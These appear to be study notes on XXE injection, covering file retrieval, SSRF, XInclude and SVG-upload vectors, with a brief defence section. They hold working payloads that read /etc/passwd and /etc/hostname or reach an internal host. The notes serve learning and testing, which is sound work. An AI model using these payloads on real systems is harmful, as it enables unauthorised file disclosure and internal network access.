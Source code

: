 # XML external entity (XXE)

### What is XML
- Some applications use the XML format to transmit data between the browser and the server.
- Its popularity has now declined in favor of the JSON format

## Impact
- Retrieve files
- Perform SSRF attacks

## Exploiting XXE to retrieve files
1) Introduce (or edit) a DOCTYPE element that defines an external entity containing the path to the file
2) Edit a data value in the XML that is returned in the application's response, to make use of the defined external entity.
- Note: To test systematically for XXE vulnerabilities, you will generally need to test each data node in the XML individually, by making use of your defined entity and seeing whether it appears within the response. 

```
<?xml version="1.0" encoding="UTF-8"?>
<stockCheck><productId>381</productId></stockCheck> 
```
```
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
<stockCheck><productId>&xxe;</productId></stockCheck>
```

## Exploiting XXE to perform SSRF attacks
- Reflected SSRF
- Bind SSRF
```
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "http://internal.vulnerable-website.com/"> ]>
```

## Blind XXE
- to do

## Finding hidden attack surface for XXE injection
- Requests that contain data in XML format
- Requests that do not contain any XML
  - (A way to detect) It's useful add entity reference that doesn't exist to cause an error condition -> ok it's XML ... 
  - XInclude attacks
    - Some applications receive client-submitted data, embed it on the server-side into an XML document, and then parse the document
    - XInclude is a part of the XML specification that allows an XML document to be built from sub-documents
    - ```
      <foo xmlns:xi="http://www.w3.org/2001/XInclude">
      <xi:include parse="text" href="file:///etc/passwd"/></foo>
      ```
  - Via file upload
    - Some common file formats use XML or contain XML subcomponents. Examples of XML-based formats are office document formats like DOCX and image formats like SVG
    - ` <?xml version="1.0" standalone="yes"?><!DOCTYPE test [ <!ENTITY xxe SYSTEM "file:///etc/hostname" > ]><svg width="128px" height="128px" xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink" version="1.1"><text font-size="16" x="0" y="16">&xxe;</text></svg> `
        - This works if it's used image processing library & support SVG images & allow external entity
   - Via modified content type
     - To do
    
## Defence
- Disable resolution of external entities
- Disable support for XInclude
